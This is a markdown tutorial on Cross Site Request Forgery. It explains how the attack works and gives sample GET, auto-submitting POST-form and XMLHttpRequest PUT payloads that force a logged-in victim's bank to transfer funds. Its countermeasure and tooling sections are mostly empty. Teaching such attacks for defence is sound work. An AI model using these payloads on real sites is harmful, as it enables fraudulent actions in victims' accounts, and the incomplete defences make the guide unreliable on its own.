

# CSRF - Cross Site Request Forgery
## Plan
* Lexic
* Overview 
   * Acronyms - Definition
   * Exploitability
   * Impact
   * Components (server, client, etc)
   * Types 
* Vulnerability exploitation samples
* Presence detection
* Countermeasures guidelines
   * Server side
   * Client side
   * Possible policy(ies)
* Countermeasures implementation
* Common exploitation tools 
--------
# Overview
## Acronyms - Definition
**CSRF** stands for **C**ross **S**ite **R**equest **F**orgery. It is often abbreviated as **XSRF** and is also known as **one-click attack** or **session riding**. **CSRF** is an attack that forces an end user to **execute unwanted actions** on a web application in which they're **currently authenticated**. **CSRF** attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker's choosing. If the victim is a normal user, a successful **CSRF attack** can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, **CSRF** can compromise the entire web application. 

## Exploitability
Attacker creates forged HTTP requests and tricks a victim into submitting them via image tags, XSS, or numerous other techniques. * If the user is authenticated, the attack succeeds. The main limitation on the success of a **CSRF** attack is the **vicitm's authentication**. 
* An other important point in this kind of attack consists in findind and setting properly the malicious hyperlink : using the **right paramreters**.
* In addition to that, the attacker must find a **very efficient method to lure the victim enough** so that he/she to click or open the malicious content proposed.

## Impact 
The following is a list of potential uses for CSRF:
* Transfer money from one bank account to another.
* Use a content management system to add/delete content from a website.
* Change a user’s password.
* Data breaches 
* Add items to a user’s shopping basket.
* Change the delivery address of an orde

## Components
As in common web attacks, the main components in **XSRF** attacks are **client** (web browser) and (web) **server**.
A description of each component will be based on the example below (taken from [incapsula](https://www.incapsula.com/web-application-security/csrf-cross-site-request-forgery.html))

***Explaination***
1. The attack perpetrator builds a malicious link embedding a **fund transfer** performance : this the attack. This action can be only performed by the owner of the account that will undergo the transfer. 
2. As the attacker is the owner, he sends this link to a web visitor by **email** for instance. 
3. The **logged visitor clicks** on the hyperlink and **triggers** the request for funds transfer. And he is logged, the transfer will be realized with his prilege, thus, on his account. This request is sent to the **server** of his bank.
4. The visitor's request is processed by the bank's website and the transfer is done.

***Note*** 

The arrow originating from the **Website** doesn't mean that the result a **CSRF** attack is always notified to the **attacker**. But in this case, it is there to show that the transfer is made from the **Website visitor** to the **attacker**.
In our example, the **Website visitor** is the **client** and the **website** is the **server**.

## CSRF Types 
### One stage CSRF
**One step CSRF** is when the action trigered by the hacker link doesn't need more action to be performed. So in this kind of CSRF the hacker just need to forged a link and send it to the the victim. 

### Multi staged CSRF 
In **multi-step CSRF** the action trigered by the hacker link needs more actions from the victim to be completed.So here, the hacker will forged multi links triggered by time or by others events in order for the CSRF to be completely done.


# Exploitation samples
**XSRF** Attacks can be launched by placing the malicious code/URL, automatic-action HTML image elements **on forums and email spam**, so that browsers visiting these pages would open them automatically, without much user action.
## GET scenario
In this part, we will give a technical description of the figure used in the [Components](#components) section. 
In addition to this, the **parameters of malicious link** are all transmitted via an **HTTP GET** method.

```http
GET http://bank.com/transfer.do?acct=PERPRETOR&amount=100 HTTP/1.1
```
But as mentioned above, the malicious link is **embedded** in something that seems lawful.
The exploit URL can be disguised as an ordinary link, encouraging the victim to click it: 
```html
<a href="http://bank.com/transfer.do?acct=WEBVISITOR&amount=100000">View my Pictures!</a>
```
Or as a **0x0** fake image: 
```html

```
If this image tag were included in the email, the **Website visitor** wouldn't see anything. However, the browser will still submit the request to **bank.com** (the server component) **without any visual indication** that the transfer has taken place. 

## POST scenario
The only difference between **GET** and **POST** attacks is how the attack is being executed by the victim. Let's assume the bank now uses **POST** and the vulnerable request looks like this: 

```http
POST http://bank.com/transfer.do HTTP/1.1

acct=PERPRETOR&amount=100
```
Such a request cannot be delivered using standard **A** or **IMG** tags, but can be delivered using a **FORM** tag: 
```html
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
  <input type="hidden" name="acct" value="WEBVISITOR"/>
  <input type="hidden" name="amount" value="100000"/>
  <input type="submit" value="View my pictures"/>
</form>
```
This form will require the user to click on the submit button, but this can be also executed automatically using **JavaScript**: 
```javascript
<body onload="document.forms[0].submit()">
/*Here is the prior malicious code*/
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
  <input type="hidden" name="acct" value="WEBVISITOR"/>
  <input type="hidden" name="amount" value="100000"/>
  <input type="submit" value="View my pictures"/>
</form>
```

## Other HTTP methods
Modern web application APIs frequently use other HTTP methods, such as **PUT** or **DELETE**. Let's assume the vulnerable bank uses **PUT** that takes a **JSON** block as an argument: 
```http
PUT http://bank.com/transfer.do HTTP/1.1

{ "acct":"BOB", "amount":100 }
```
Such requests can be executed with JavaScript embedded into an exploit page: 
```javascript
<script>
  function put() {
    var x = new XMLHttpRequest();
    x.open("PUT","http://bank.com/transfer.do",true);
    x.setRequestHeader("Content-Type", "application/json"); 
    x.send(JSON.stringify({"acct":"PERPRETOR", "amount":100})); 
  }
</script>
<body onload="put()">
```
## Presence detection (post-incident)
Detection of **CSRF** flaws is made via **penetration testing** or **code analysis**. 
* **Penetration testing**
* **Code analysis**
# Countermeasures guidelines
## Server-side
## Client-side
* The browser plugin **RequestPolicy** (for `Mozilla Firefox`)  can prevent **CSRF** by providing a default-deny policy for cross-site requests. However, this can significantly interfere with the normal operation of many websites. 

*  **uMatrix** (for both `Firefox` and `Google Chrome/Chromium`) works like **RequestPolicy**.

* The **CsFire** extension (also for `Firefox`) can mitigate the impact of **CSRF** with less impact on normal browsing, by removing authentication information from cross-site requests.

* The **NoScript** extension for `Firefox` mitigates **CSRF** threats by distinguishing trusted from untrusted sites, and removing authentication & payloads from POST requests sent by untrusted sites to trusted ones. The `Application Boundary Enforcer` module in **NoScript** also blocks requests sent from internet pages to local sites (e.g. localhost), preventing **CSRF** attacks on local services (such as `uTorrent`) or `routers`.

* Appart these technical points, it is a good practice to:
  * **Logoff** when you are done using a site!.
  * Use **multiple browsers** : one for accessing sensitive sites/applications and one for surfing freely.

* The Self **Destructing Cookies extension for Firefox** does not directly protect from CSRF, but can reduce the attack window, by deleting cookies as soon as they are no longer associated with an open tab.
## Policies
### SOP - Same Origin Policy
[SOP](../XSS/items/CORS.md) is a policy preventing which prevents the **web browser** from accessing a web site if the requested web site and the current one do not have the same origin. 
It prevents from the [example described above](#other-http-methods).
### CORS - Cross Origin Resource Sharing
[CORS](../XSS/items/sop.md) ia a mechanism that allows restricted resources on a web page to be requested from another domain from which the first resource was served.
**CORS** defines a way in which a browser and server can interact to determine whether or not it is safe to allow the **cross-origin request**. It allows for more freedom and functionality than purely same-origin requests, but is more secure than simply allowing all cross-origin requests. 
# Countermeasures implementation
# Common exploitation tools
